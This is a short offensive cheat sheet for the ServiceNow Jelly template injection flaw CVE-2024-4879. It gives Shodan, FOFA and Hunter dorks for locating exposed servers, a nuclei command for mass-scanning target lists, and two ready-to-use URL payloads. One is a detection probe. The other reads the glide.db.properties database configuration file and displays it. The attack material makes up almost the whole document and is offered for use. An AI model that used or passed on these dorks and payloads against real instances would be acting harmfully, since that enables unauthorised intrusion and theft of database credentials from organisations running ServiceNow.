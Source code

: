 ### Jelly Template Injection Vulnerability in ServiceNow

#### Tag
```servicenow```

#### Dorks
```
Shodan - "Server: ServiceNow"
FOFA   - app="servicenow-Products"
Hunter - /product.name="ServiceNow"
```

#### Nuclei Scanning
```
# Download original template for cve-2024-4879.yaml
# https://github.com/Brut-Security/CVE-2024-4879

nuclei -l targets.txt -t cve-2024-4879.yaml -o vulnerable_targets.txt
```

#### Exploit POC
```
# Detect Payload
https://<ip>/login.do?jvar_page_title=<style><j:jelly%20xmlns:j="jelly"%20xmlns:g='glide'><g:evaluate>gs.addErrorMessage(7*7);</g:evaluate></j:jelly></style>

# Access DB (Not work always)
https://<ip>/login.do?jvar_page_title=%3Cstyle%3E%3Cj:jelly%20xmlns:j=%22jelly:core%22%20xmlns:g=%27glide%27%3E%3Cg:evaluate%3Ez=new%20Packages.java.io.File(%22%22).getAbsolutePath();z=z.substring(0,z.lastIndexOf(%22/%22));u=new%20SecurelyAccess(z.concat(%22/co..nf/glide.db.properties%22)).getBufferedReader();s=%22%22;while((q=u.readLine())!==null)s=s.concat(q,%22%5Cn%22);gs.addErrorMessage(s);%3C/g:evaluate%3E%3C/j:jelly%3E%3C/style%3E%22
```

#### Refereces
- https://codewithvamp.medium.com/servicenow-template-injection-vulnerability-cve-2024-4879-cve-2024-5178-cve-2024-5217-1165441beb8e
- https://github.com/Brut-Security/CVE-2024-4879
- https://www.youtube.com/watch?v=tqophl7sByc
- https://www.youtube.com/watch?v=__r7tz47Lso&t=221s
